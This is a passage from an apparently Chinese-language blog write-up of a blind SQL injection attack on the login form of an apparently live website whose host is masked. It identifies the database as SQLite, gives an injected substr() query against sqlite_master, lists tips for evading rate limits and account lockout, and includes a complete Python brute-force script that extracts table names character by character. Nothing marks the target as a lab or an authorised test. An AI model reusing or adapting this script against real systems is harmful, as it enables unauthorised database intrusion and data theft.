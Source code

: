 ![](/images/hard-sql/20.png)

通过特有函数与表的判断如：sqlite_version、sqlite_master，判断出了当前数据库为sqlite。

知道数据库类型之后就好办了，使用特定语句即可

猜表

```sqlite
select substr(tbl_name,0,1) from sqlite_master limit 0,1)='A'
```

简单写了个脚本跑，但是要注意的事，这个站很坑，线程必须1，必须要延时，不能过快，否则会抽风。抽风的情况就是不返回用户被锁定或者用户名密码错误，无法判断真假。

脚本还需要注意的就是：

1)由于网站是https的，必须要先下载该网站的证书，通过verify加载才可以正常访问

2)allow_redirects=True，允许跳转，否则只能捕获到302的包

3)sqlite区分大小写，所以要将大写也列入payload中

4)encode('utf-8')处理中文，否则type为unincode，无法匹配到中文

5)延时0.6秒

脚本遍历limit就行，不再写一个循环的原因还是因为抽风的存在，就算是延时2秒也不能保证不会抽风。还有就是用户锁定时长大概是5-10分钟，具体没有去计。过了时间之后还得继续让一个用户锁定，所以只能手动改猜第几个表。

```python
#coding=utf-8
import requests
import time

url = "https://f4ckyouthewebsite/usrlgin?pass=1&username=fuckyou"
s = requests.Session()
data = ""
payloads = list('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.')

for x in range(25):
    for payload in payloads:
    	uri = "%27%0aor%0a(select%0asubstr(tbl_name,"+str(x)+",1)%0afrom%0asqlite_master%0alimit%0a0,1)='"+payload+"'%0aor%0a%271%27=%27&getLock=t&ptype=0&overrideLock=&orl=&password=test123"
        res = s.get(url+uri,verify='4444.cer',allow_redirects=True).text
        res = res.encode('utf-8')
        if "用户被锁定" in res:
            print payload
```